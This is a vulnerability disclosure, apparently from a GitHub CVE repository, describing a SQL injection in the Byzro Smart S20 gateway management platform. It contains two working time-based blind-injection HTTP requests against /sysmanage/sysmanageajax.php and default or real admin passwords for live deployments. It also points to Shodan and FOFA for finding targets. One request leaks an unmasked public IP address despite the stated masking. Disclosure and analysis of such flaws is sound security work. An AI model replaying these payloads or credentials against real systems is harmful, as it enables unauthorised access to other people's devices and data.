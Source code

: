 There is a SQL injection vulnerability in Byzro Networks Smart S20 management platform

#### 1.Vulnerability description

Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
There is a SQL injection vulnerability in Byzro Networks Smart S20 gateway intelligent management platform. Attackers can exploit vulnerabilities to gain server permissions and manipulate server files to obtain sensitive information.

#### 2.Impact of vulnerabilities

Smart S20

#### 3.Vulnerability location

/sysmanage/sysmanageajax.php

#### 4.Recurrence of vulnerabilities

To protect privacy, the public IP addresses in the following examples have been coded and can be tested based on search engines such as shadon and fofa.

##### Case 1

(1)After entering the login page, the account password is admin/admin.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128012332771.png)

(2)Construct the following POC and execute the blind injection successfully. Note: The cookie field needs to be replaced with the value after login, and test2 cannot be repeated during the test.

```
POST /sysmanage/sysmanageajax.php HTTP/1.1
Host: 221.xxx.xxx.134:8443
Cookie: PHPSESSID=f3723499e56eadbbdba2390af1bd85af
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

src=manageadmin&type=add&id=(select*from(select+if(length(database())=3,sleep(5),1))a)|1|1&value=test3|123456
```

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-202401280119350441.png)

There is a delay in page response echo, which proves the existence of SQL injection vulnerability.

##### Case 2

(1)Enter the login page, the account password is admin/sssw-0476.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128012351673.png)

(2)Construct the following POC and execute the blind injection successfully. Note: The cookie field needs to be replaced with the value after login, and test2 cannot be repeated during the test.

```
POST /sysmanage/sysmanageajax.php HTTP/1.11
Host: 58.xxx.xxx.60:8443
Cookie: PHPSESSID=b7e24f2cb8b51338e8531e0b50da49ee
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 109
Origin: https://58.18.133.60:8443
Referer: https://58.18.133.60:8443/sysmanage/manageadmin.php
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 1.1.1.1
X-Originating-Ip: 1.1.1.1
X-Remote-Ip: 1.1.1.1
X-Remote-Addr: 1.1.1.1
Te: trailers
Connection: close

src=manageadmin&type=add&id=(select*from(select+if(length(database())=3,sleep(5),1))a)|1|1&value=test2|123456
```
![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128011551226.png)

There is a delayed response, and the 5s is consistent with the injection statement, so there is a SQL injection vulnerability.

#### 5.Code analysis

In sysmanageajax.php, first of all, the $post_src and $post_type parameters are controllable and are passed in through the post method.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128005938583.png)

Therefore, you can control the input of src=manageadmin and type=add, so that the program logic jumps to the content as shown below.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-0240128010425584.png)

The $rolseid parameter here is directly spliced into the SQL query statement without any security filtering, so there is a SQL injection point. The attacker only needs to control the id parameter passed in through the post method to cause SQL injection.
